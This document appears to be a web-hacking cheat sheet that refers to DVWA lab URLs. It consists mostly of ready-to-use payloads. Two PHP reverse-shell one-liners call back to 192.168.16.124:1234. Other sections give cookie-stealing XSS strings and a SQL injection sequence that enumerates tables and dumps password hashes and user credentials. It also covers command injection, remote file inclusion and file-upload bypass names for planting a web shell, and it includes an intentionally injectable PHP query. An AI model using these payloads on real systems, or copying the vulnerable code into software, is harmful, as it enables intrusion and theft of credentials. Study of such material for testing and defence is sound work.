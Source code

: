 ## WEB

PHP
===

Reverse shell one-liners:

<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>


XSS (CROSS SITE SCRIPTING)
==========================

```javascript
<script>alert("XSS")</script>
<script>alert(document.cookie)</script>
```

iframe: `<iframe src="http://www.cnn.com"></iframe>`  
Stored cookie: `<script>alert(document.cookie)</script>`
Refleced (vulnerable parameter): `http://localhost/xss_r/?name=<script>alert(document.cookie)</script`


SQL INJECTION
=============

SQL operators and functions:

`UNION` - used to combine the result of two or more SELECT statements with same number of columns and similar data types (selects only distinct values by default - to allow duplicate values, use UNION ALL).  
`SUBSTRING(str, pos, len)` - returns a specified number of characters from a particular position of a given string.  

MySQL delimiter: `#`
SQL delimiter: `--`

Vulnerable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

Determining Database Type
-------------------------

Only MySQL is using `version_comment`.

* "Always true" scenario:

```
%' or '0'='0
' or 1=1--
```

`%` will probably not be equal to anything so will be false
`'0'='0'` - always equal to true

* Figure out how many columns / attributes are there:

`‘ ORDER BY 1#`  
`‘ ORDER BY 2#`  
etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`

* Display all tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables #`

* Display all the user tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables where table_name like 'user%'#`

* Display all the columns fields in database's user table:

%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`

* Display all the columns field contents in the database user table:

`%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`


COMMAND INJECTION
=================

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`


LOCAL FILE INCLUSION
====================

Local: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  
Remote: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`

FILE UPLOAD
===========

Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

shell.jpg.php (satisfies as check for jpg only)

shell.jpg.PhP (obfuscation)

shell.php;.jpg (sometimes can ignore whats after ";")

shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)

shell.php.test (defaults to first recognised extension ignoring "test")

shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)

.phtml (a commonly used php parsed extension often forgotten about!)

.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
